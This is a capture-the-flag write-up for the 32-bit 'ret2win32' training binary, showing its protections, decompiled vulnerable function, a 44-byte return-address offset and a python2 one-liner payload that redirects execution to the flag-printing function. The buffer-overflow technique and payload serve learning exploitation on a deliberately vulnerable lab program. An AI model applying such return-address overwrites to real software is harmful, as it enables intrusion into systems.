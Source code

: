 Rahn Stavar
## Write-up:
`ret2win32` binary is a standard Intel 32-bit ELF.
```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

```
`readelf` shows a couple of suspiciously named functions, being `pwnme` and `ret2win`:
```bash
$ readelf ret2win32 -Ws | grep FUNC
...
    36: 080485ad   127 FUNC    LOCAL  DEFAULT   14 pwnme
    37: 0804862c    41 FUNC    LOCAL  DEFAULT   14 ret2win
...
```
`checksec` shows `NX` bit is set for the binary and `PIE` is off:
```bash
$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```
Opening this binary up in Ghidra shows `main` calls `pwnme`, which looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}
```
And `ret2win` looks like:
```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
So to win, I need to cause a buffer overflow in `pwnme` to change the return address to `ret2win`.
![[Pasted image 20231215170018.png]]
![[Pasted image 20231215170103.png]]
Using `gdb-peda`'s pattern functionality, I have found that the offset from the buffer to the functions return address is 44 bytes.
Now, I need the address of ret2win:
```bash
gdb-peda$ p ret2win
$1 = {<text variable, no debug info>} 0x804862c <ret2win>
```
So `0x0804862c` is the address of `ret2win`. I'll now use the gathered information to build a payload.
```bash
python2 -c 'print "\x00"*44 + "\x2c\x86\x04\x08"' > payload.txt
```
Now to throw the exploit with:
```bash
./ret2win32 < payload.txt
```
![[Pasted image 20231215171642.png]]
As shown in the above picture, the exploit was successful, and the program executed the `ret2win` function which prints the "flag".